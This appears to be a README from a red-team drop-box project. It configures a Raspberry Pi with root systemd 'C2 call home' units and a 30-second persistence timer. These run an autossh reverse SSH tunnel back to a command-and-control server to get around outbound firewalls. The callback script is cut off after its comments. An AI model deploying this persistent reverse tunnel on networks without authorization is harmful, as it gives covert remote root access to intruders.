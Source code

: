 Install an openvpn or setup a ssh  local and reverse tunnel to connect the pi over cloud controlled server. There is and issue where the client network can connect over the internet but most of them have outbound firewall rules and external sites whitelisting. Ensure to enable routes if out-of-band connection is going to be used. Connect the pi over the wlan using command line. 

Update and upgrade packages

```sh
apt update -y && apt upgrade -y
```

Connecting pi to wireless network

```sh
nmcli dev wifi connect SSID_NAME password SSID_PASSPHRASE
```

#### Setting up reverse ssh tunnel callback

Create services and timers on ***/etc/systemd/system***

*callhome.service*
```service
[Unit]
Description="C2 Call Home Service"
After=network.target

[Service]
Type=forking
User=root
ExecStart=/opt/scripts/startup/callhome.sh start
Restart=always
RestartSec=5

[Install]
WantedBy=default.target
```

*callhome-persistence.timer*
```timer
[Unit]
Description=C2 Callhome Persistence Service Timer

[Timer]
OnBootSec=15m
OnUnitActiveSec=30s
Unit=callhome.service

[Install]
WantedBy=default.target
```

Callback script on ***/opt/scripts/startup***

*callhome.sh*
```bash
#!/bin/bash
#
# Starts autossh to connect to C2
# this script is managed by callhome.service in /etc/systemd/system
#
#
# Setting Up:
# - generate an rsa key using ssh-keygen
# - upload the private key here in /root/.ssh/                                          # - run chmod 600 on the private key file                                               # - copy the public key to the server, by ssh-copy-id or public key and add it to authorized_keys file of the server.
# - once connected, remote back in to this host using ssh root@127.0.0.1 on the specified tunnel port
```
